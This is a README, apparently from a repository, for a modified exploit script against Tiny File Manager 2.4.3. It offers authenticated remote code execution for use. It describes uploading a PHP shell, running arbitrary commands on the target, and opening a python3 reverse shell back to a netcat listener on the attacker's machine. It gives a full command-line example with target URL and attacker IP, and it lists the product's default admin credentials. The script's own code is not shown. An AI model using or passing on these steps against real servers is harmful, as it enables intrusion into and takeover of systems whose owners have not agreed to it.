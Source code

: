 # Tiny File Manager 2.4.3 RCE v2
Just a simple script, created by FEBIN MON SAJI (https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/) and modified by me that uploads a php shell and executes arbitrary code on the remote vulnerable server.

### Changes:
  - Added python3 reverse shell functionality. 
  - Added another uploading method: Now, it checks if the original upload has been successful and, if not, tries another location using other params.
  - Added cleaning stuff and some style changes

### Use:
´´´
        Tiny File Manager Authenticated RCE POC Exploit - V2.

        By FEBIN - Modified by W1s3m4n

        ./exploit.sh <URL> <Admin Username> <Password> <LocalIP> <LocalPort>

        Example: ./exploit.sh http://files.ubuntu.local/tinyfilemanager.php admin "admin@123" 10.10.14.111 2319

        Default creds:
                - admin:admin@123
                - user/12345

        SHELL: Open a netcat listener on LocalIP and LocalPort for python3 reverse shell.

´´´

  
 
